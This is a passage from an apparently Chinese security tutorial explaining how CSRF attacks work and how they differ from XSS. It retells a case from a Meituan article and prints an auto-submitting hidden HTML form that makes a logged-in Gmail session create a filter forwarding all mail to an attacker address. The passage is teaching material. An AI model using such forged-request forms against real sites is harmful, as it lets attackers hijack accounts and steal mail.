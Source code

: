 > 我们在学习 CSRF 攻击之前好好先阐述一下它的原理

一个典型的CSRF攻击有着如下的流程：

- 受害者登录 a.com，并保留了登录凭证（Cookie）。
- 攻击者引诱受害者访问了 b.com。
- b.com 向 a.com 发送了一个请求：a.com/act=xx。浏览器会默认携带 a.com 的 Cookie。
- a.com 接收到请求后，对请求进行验证，并确认是受害者的凭证，误以为是受害者自己发送的请求。
- a.com 以受害者的名义执行了 act=xx。
- 攻击完成，攻击者在受害者不知情的情况下，冒充受害者，让 a.com 执行了自己定义的操作。

是不是感觉这个工作流程和 XSS 有些类似，但是 XSS 与 CSRF 的最大区别在于对 Cookie 的使用，XSS 的把受害者 的 Cookie 偷盗过来，而 CSRF 则是借用了受害者的 Cookie。

下面我们举个例子深化一下 CSRF 的原理。

### 0x03 CSRF 实战场景(原理应用)

本段内容摘自[美团技术团队文章](https://tech.meituan.com/2018/10/11/fe-security-csrf.html)

这一天，小明同学百无聊赖地刷着 Gmail 邮件。大部分都是没营养的通知、验证码、聊天记录之类。但有一封邮件引起了小明的注意：

> 甩卖比特币，一个只要998！！

聪明的小明当然知道这种肯定是骗子，但还是抱着好奇的态度点了进去（请勿模仿）。果然，这只是一个什么都没有的空白页面，小明失望的关闭了页面。一切似乎什么都没有发生……

在这平静的外表之下，黑客的攻击已然得手。小明的 Gmail 中，被偷偷设置了一个过滤规则，这个规则使得所有的邮件都会被**自动转发**到 hacker@hackermail.com(也就是攻击方的邮箱)。小明还在继续刷着邮件，殊不知他的邮件正在一封封地，如脱缰的野马一般地，持续不断地向着黑客的邮箱转发而去。

不久之后的一天，小明发现自己的域名已经被转让了。懵懂的小明以为是域名到期自己忘了续费，直到有一天，对方开出了 $650 的赎回价码，小明才开始觉得不太对劲。

小明仔细查了下域名的转让，对方是拥有自己的验证码的，而域名的验证码只存在于自己的邮箱里面。小明回想起那天奇怪的链接，打开后重新查看了“空白页”的源码：

```
<form method="POST" 		action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
	<input type="hidden" name="cf2_emc" value="true"/> 
	<input type="hidden" name="cf2_email" value="hacker@hakermail.com"/> 
	..... 
	<input type="hidden" name="irf" value="on"/> 
	<input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form> 

<script> document.forms[0].submit(); </script>
```

##### 代码解析 ———— 这也是我们后续要讲到的 CSRF Poc

这个页面只要打开，就会向Gmail发送一个post请求。请求中，执行了“Create Filter”命令，将所有的邮件，转发到“hacker@hackermail.com”。

小明由于刚刚就登陆了Gmail，所以这个请求发送时，携带着小明的登录凭证（Cookie），Gmail的后台接收到请求，验证了确实有小明的登录凭证，于是成功给小明配置了过滤器。
